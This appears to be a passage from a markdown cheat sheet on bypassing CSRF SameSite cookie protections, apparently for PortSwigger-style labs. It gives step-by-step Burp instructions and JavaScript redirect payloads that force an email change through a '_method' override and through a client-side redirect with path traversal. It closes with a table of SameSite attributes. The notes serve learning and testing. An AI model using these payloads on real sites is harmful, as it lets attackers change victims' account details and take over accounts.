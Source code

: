 For details: [Portswigger](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-can-be-circumvented)

---

## Bypassing SameSite Policy

[Same site explanation](https://www.youtube.com/watch?v=aUF2QCEudPo&t=360s)

### Lax Bypass Via Method Override

1. **Change request method from POST to GET in Burp**
2. **Try overriding the method by adding the ```_method``` parameter to the query string. `[HTML forms don't support the PUT, PATCH, or DELETE methods. However, some frameworks provide a _method field to simulate these methods.]`**

**Example**: GET /my-account/change-email?email=pwned@hacked.com```&_method=POST``` HTTP/1.1

**Payload Or, we can use burp csrf poc generator.**
```javascript
<script>
    document.location = "https://vulnerable.web/my-account/change-email?email=pwned@hacked.com&_method=POST";
</script>
```
--- 

### Strict Bypass Via Client Side Redirect

If there is a endpoint in website that redirecting to another page of website, you can use this process to bypass strict attribute.

1. **Change request method from POST to GET in Burp**
2. **Identify a endpoint that redirect the traffic to another page**
3. **Now copy and paste the request that you changed from POST to GET in the redirection path**
4. **If possible, you can also use the path traversal technique**

**Example**: ```https://vulnblog.web/post/comment/confirmation?postId=../my-account```. Here, ```postId``` parameter trying a redirection and we are trying to exlploit the change-email functionality in ```/my-account``` page.

**Payload**
```javascript
<script>
    document.location = "https://vulnerable.web/post/comment/confirmation?postId=../my-account/change-email?email=a111%40a.com%26submit=1";
</script>
```
---

### Notes

| Attribute         | Sent with Cross-Origin Requests? | Sent on Same-Site Requests? | Notes                                       |
|-------------------|----------------------------------|-----------------------------|---------------------------------------------|
| `Strict`          | No                              | Yes                         | Most secure, but may reduce usability.      |
| `Lax`             | Limited (e.g., navigation GET)  | Yes                         | Good balance between usability and security.|
| `None` (with `Secure`) | Yes                             | Yes                         | Necessary for third-party cookies.          |
| No Attribute      | Limited (assumed `Lax`)         | Yes                         | Default behavior in most modern browsers.   |
